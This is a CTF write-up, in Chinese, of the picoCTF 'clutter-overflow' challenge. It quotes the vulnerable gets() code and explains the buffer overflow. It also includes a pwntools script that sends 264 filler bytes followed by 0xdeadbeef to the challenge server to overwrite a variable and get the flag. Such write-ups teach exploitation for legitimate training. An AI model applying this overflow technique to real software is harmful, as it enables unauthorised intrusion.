


# clutter-overflow

Clutter, clutter everywhere and not a byte to use.

```
nc mars.picoctf.net 31890
```

https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall.c

https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall

## WP

首先打开题给C文件，看到关键信息如下。

```c
#define SIZE 0x100
#define GOAL 0xdeadbeef

...

gets(clutter);

if (code == GOAL) {
  printf("code == 0x%llx: how did that happen??\n", GOAL);
  puts("take a flag for your troubles");
  system("cat flag.txt");
} else {
  printf("code == 0x%llx\n", code);
  printf("code != 0x%llx :(\n", GOAL);
}
```

总而言之，我们的输入会被放置在一块名为`clutter`的缓存中，而程序一旦检测到`code`变量为`0xdeadbeef`时就会回显Flag。

因此我们的任务就是将`clutter`缓存溢出到`code`变量，并给`code`变量赋值`0xdeadbeef`。

将可执行文件进行反编译，发现缓冲区的实际大小其实是264个字节。



接下来的任务就很简单了，先用264个无意义字符填充缓冲区，然后给`code`赋值。脚本如下：

```python
from pwn import *

conn = remote('mars.picoctf.net', 31890)
payload = b'a' * 264 + b'\xef\xbe\xad\xde'
# payload = b'a' * 264 + p64(0xdeadbeef)
conn.sendline(payload)
conn.interactive()
```

注意，由于payload中存在不可打印字符，我们可以选择直接发送字节串（`b''`）或使用pwntools的`p64()`函数进行封装。

由于靶机中整型变量存储方式是小端序，因此在发送字节串时需要将目标值以十六进制数为基本单位进行逆序。

直接使用`p64()`函数的话会自动进行处理，不需要逆序。



发送payload后成功拿到Flag。

